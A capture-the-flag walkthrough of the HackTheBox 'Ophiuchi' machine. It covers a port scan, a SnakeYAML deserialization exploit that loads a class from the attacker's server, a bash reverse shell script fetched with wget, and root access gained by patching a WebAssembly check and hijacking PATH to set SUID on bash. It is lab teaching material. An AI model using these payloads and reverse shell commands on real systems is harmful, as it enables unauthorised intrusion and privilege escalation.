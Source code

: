 # HackTheBox-Ophiuchi

## Rustscan

```bash

rustscan -a 10.10.10.227 -- -A -sC -sV             
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

Open 10.10.10.227:22
Open 10.10.10.227:8080

PORT     STATE SERVICE REASON         VERSION                                                                     
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)                
8080/tcp open  http    syn-ack ttl 63 Apache Tomcat 9.0.38
| http-methods:                                          
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Parse YAML
```

## PORT 8080 (HTTP)

<img src="https://imgur.com/nzuPNKS.png"/>

There's a YAML parser so I tried to write something there but got no response

<img src="https://imgur.com/iLjUXuF.png"/>

<img src="https://imgur.com/NuZr8ru.png"/>

From the nmap scan we already know that  Apache Tomcat 9.0.38 is running ,so I logging in by going to `/manager` ,but wasn't able to login using the default credentials

<img src="https://imgur.com/ubAjejr.png"/>

<img src="https://imgur.com/1uzKvVg.png"/>


So after googling for apache tomcat 9.0.38 vulnerabilites/exploits I found snake yaml deserilization exploit

<img src="https://imgur.com/FSSX0qu.png"/>

The exploit is about Snake YAML having a feature to call a java class constructor

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://VPN_IP/"]
  ]]
]
```

<img src="https://imgur.com/ddbSFav.png"/>

We'll see a request being made for 
`/METAINF/services/javax.script.ScriptEngineFactory` on our machine 

<img src="https://imgur.com/p7MYzlv.png"/>

We can abuse it in a way that keeping the same file structure like having directory 'META-IN' then a sub directory `services` having a file name `javax.script.ScriptEngineFactory` and in that file we will call our exploit

<img src="https://imgur.com/wI94hDk.png"/>

<img src="https://imgur.com/UPf66oB.png"/>

Create a file name `exploit.java` you can get the java code from here and in that we'll try to ping our local machine to see if the exploit works or not so that we can get a reverse shell

https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java

<img src="https://imgur.com/FhdLmnb.png"/>

Compile the java file using `javac` and you will get .class file

<img src="https://imgur.com/KhonV7r.png"/>

<img src="https://i.imgur.com/2qu18Y0.png"/>

In the `javax.script.ScriptEngineFactory` we will include this content

<img src="https://imgur.com/nO3s3pB.png"/>

And also we will make a folder `snakeyml` having that `exlpoit.class` file

<img src="https://imgur.com/xQCix5Y.png"/>

So the file structure will look like this , so start the python3 server or apache2 to host the folder and use the same java class constructor we were calling yaml

<img src="https://i.imgur.com/wmpyljd.png"/>

After sending it we receive a 500 error

<img src="https://imgur.com/0DyhoA7.png"/>

We can see the error that we compiled the java file with the latest version of `javac` so we need to comiple it using the java class 55 version. We can do this by specifying the release as a paramter in javac. (Thank you stackoverflow)

<img src="https://imgur.com/nBZ6KlB.png"/>

<img src="https://imgur.com/Ul06kBs.png"/>

Now compiling it using the release version 11 and start both the python3 web server and start listening for ICMP packets on tun0 interface

<img src="https://imgur.com/Bq8Le25.png"/>

<img src="https://imgur.com/wyJNAcg.png"/>

On giving java constructor class in yaml we will see the ICMP packets

<img src="https://imgur.com/RGc29Vt.png"/>


But there was a problem in getting a reverse shell no matter which reverse shell I tried to use whether it was a bash or netcat I couldn't get a shell so I made a script which had a bash reverse shell 

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.196/4242 0>&1
```

Now we will download the bash script on the target machine using `wget` save it in `/tmp` directory and will execute it using bash also we will setup a netcat listener. So modifying our `exploit.java` file

<img src="https://imgur.com/Rm47FzX.png"/>

Enter this in yaml parser input box

<img src="https://imgur.com/r4LZIRZ.png"/>

Once you enter this on your terminal you'll see the request being made to get `exploit.sh` and you will get a reverse shell

<img src="https://imgur.com/MLLPoav.png"/>

Stabilizing the shell using `python3`

<img src="https://imgur.com/uQrLdPw.png"/>

Since apache tomcat is running we can now search for users file 

<img src="https://imgur.com/zlIlSkR.png"/>

<img src="https://imgur.com/5PH5uC3.png"/>

Now using find command to search for that file

<img src="https://imgur.com/MsjhO2j.png"/>

<img src="https://i.imgur.com/He84Vda.png"/>

We can try to switch user as `admin` with that password on the machine

<img src="https://imgur.com/5N7BYYz.png"/>

Reading the source code we can see that it's going to read the Web assembly binary then it's going to get a value from `info` function and if that value it's not equal to 1 the program will give the ouput "Not ready to deploy" else it would execute a `deploy.sh` script.

<img src="https://imgur.com/Bq2pwMT.png"/>

There is one thing to note that `main.wasm` and `deploy.sh` don't have the absolute path in the source meaning we can make our own files and then play around with the PATH variable. So first I am going to download `main.wasm` on to my machine 

<img src="https://imgur.com/X9vGDib.png"/>


https://github.com/WebAssembly/wabt

And here will be using a tool named `WABT` Web Assembly Binary Toolkit , we need to convert the main.wasm file to .wat file as it is a text format to that binary. But before that first let's see the `info` function in the binary using wasm-decompile which will decompile the binary to C syntax 

<img src="https://imgur.com/wIXUs4r.png"/>

<img src="https://imgur.com/8Jp2bDH.png"/>

We can see that `info` function returns the value 0 so that's what we need to change. Converting .wasm to .wat file

<img src="https://imgur.com/bwKvBmO.png"/>

On opening the .wat file we can see that `const` value is 0

<img src="https://imgur.com/tkD8o2B.png"/>

So remeber the source code had a condition if `f!=1` (if f is not equal to 1) it's going to print not deploy else it will execute the `deploy.sh` script so change that 0 to 1

<img src="https://imgur.com/rJyXUXy.png"/>

Now we need that back in binary form (.wasm) so we are going to convert it from .wat to .wasm 

<img src="https://imgur.com/ReZxaUq.png"/>

Transfer this onto target machine in `/tmp` directory also to make a `deploy.sh` file. I added a command to make bash a SUID in that script file

<img src="https://imgur.com/DPFsf9J.png"/>

<img src="https://i.imgur.com/CrRofxq.png"/>

Now to add `/tmp` to PATH variable and run the golang source code as sudo

<img src="https://imgur.com/FMzjbeM.png"/>

<img src="https://imgur.com/ZECIkwq.png"/>

We can see that `/bin/bash` now has a SUID bit on this means we can get root by running bash with `-p`

<img src="https://imgur.com/wtFJtYN.png"/>

You can also get a reverse shell using netcat (OpenBSD)

<img src="https://imgur.com/PXj0QUn.png"/>

<img src="https://imgur.com/uQRWoFX.png"/>
